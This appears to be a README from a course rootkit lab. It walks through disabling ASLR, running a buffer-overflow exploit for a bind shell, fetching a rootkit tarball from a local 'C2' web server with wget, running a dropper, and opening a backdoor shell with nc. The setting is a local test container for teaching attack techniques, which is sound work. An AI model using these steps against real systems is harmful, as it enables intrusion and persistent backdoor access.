 # Rootkit Project

## Project Layout

`rootkit/` - contains source code for malicious rootkit library 
`dropper/` - contains vulnerable target program and payload delivery code
`target/` - contains code for testing/target environment (will eventually be run on target server)

## Purpose

This readme details the process for setting up your test environment, and installing your malware using an exploit script.

In order to do install, you will run an exploit script which will exploit a buffer overflow in the target process.
This will open up a temporary bind shell into the process which you can use to install your rootkit onto the system.

This will give you a more permenant backdoor, and also allow you to use all of your features in the coming weeks, as you
add more.

## Test Target Environment Setup

Perform all these steps in the vm in the **target/ directory**

1. install docker

```sh
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh
```

2. disable ssh

```sh
sudo systemctl stop sshd
```

3. disable aslr

```sh
sudo echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
4. install and enable apache

```sh
sudo apt install apache2
```

5. run `sudo docker compose up -d`

## Malware Installation Process

Preform these steps in the **dropper/ directory** 

### Set up C2

1. create rootkit tarball
> make sure you compile your rootkit and move the rootkit.so file to the 

```sh
tar -czf rootkit.tz drop.sh rootkit.so
```
 
2. move the rootkit tarball to /var/www/html ("C2 server")

```sh
cp rootkit.tz /var/www/html
```

### Run the exploit 

1. run your exploit, it will hang, let it do so

```sh
python3 exploit.py
```

2. in a separate terminal connect to localhost:4567 via `nc` (stage 1 bind shell)
3. download and unzip your tarball

```sh
wget http://127.0.0.1/rootkit.tz
tar -xzf rootkit.tz
```

4. install your malware

```sh
chmod +x drop.sh 
./drop.sh (installs your malware)
```

5. ssh into trigger address
```sh
ssh joebruin@localhost
```

6. open bind shell (nc localhost 1234)

```sh
nc localhost 1234
```

7. Hack Away - your malware is running in the docker container
